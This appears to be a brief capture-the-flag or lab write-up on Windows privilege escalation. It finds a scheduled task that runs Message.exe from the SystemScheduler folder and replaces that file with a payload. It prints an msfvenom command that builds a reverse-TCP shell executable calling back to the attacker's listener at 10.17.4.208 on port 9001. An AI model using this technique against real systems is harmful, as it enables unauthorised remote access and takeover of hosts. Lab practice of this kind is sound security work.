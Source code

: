 from the services running (ps) we see that there is a WScheduler.exe service running. 
And from the program files its SystemScheduler

![[Pasted image 20210527204315.png]]

and then from the logs its due to Message.exe

![[Pasted image 20210527204347.png]]

 and its in the `C:\program files (x86)\SystemScheduler`
![[Pasted image 20210527204517.png]]

so we will override it 

generate the payload and listen and after few seconds we got the shell

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.17.4.208 LPORT=9001 -f exe -o message.exe`

![[Pasted image 20210527204924.png]]